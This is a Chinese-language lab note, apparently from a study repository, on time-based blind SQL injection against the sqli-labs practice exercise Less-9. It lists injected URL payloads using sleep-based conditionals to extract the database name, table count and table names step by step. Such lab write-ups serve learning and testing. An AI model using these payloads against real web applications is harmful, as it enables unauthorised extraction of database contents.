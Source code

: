 

### **3.get 基于时间的盲注应用**

#### Less-9 时间盲注

##### 判断数据库长度

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if(length(database())=8,sleep(5),0)--+
```

![image-20240805194210805](../../../../repo/assets/19.SQL注入/image-20240805194210805.png)

##### 判断数据库名

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if(substr(database(),1,1)='s',sleep(5),0)--+
```

![image-20240805194250204](../../../../repo/assets/19.SQL注入/image-20240805194250204.png)

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),0)--+
```

![image-20240805194319719](../../../../repo/assets/19.SQL注入/image-20240805194319719.png)

##### 判断有几张表

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if((select count(table_name) from information_schema.tables where table_schema=database())=4,sleep(5),0)--+
```

![image-20240805194404301](../../../../repo/assets/19.SQL注入/image-20240805194404301.png)

##### 判断第一个表名长度

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if(length((select table_name from information_schema.tables where table_schema='security' limit 0,1))=6,sleep(5),0)--+ 
```

`emails`

![image-20240805194817141](../../../../repo/assets/19.SQL注入/image-20240805194817141.png)

##### 判断表名

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,sleep(5),0)--+
```

`emails`

![image-20240805194905964](../../../../repo/assets/19.SQL注入/image-20240805194905964.png)
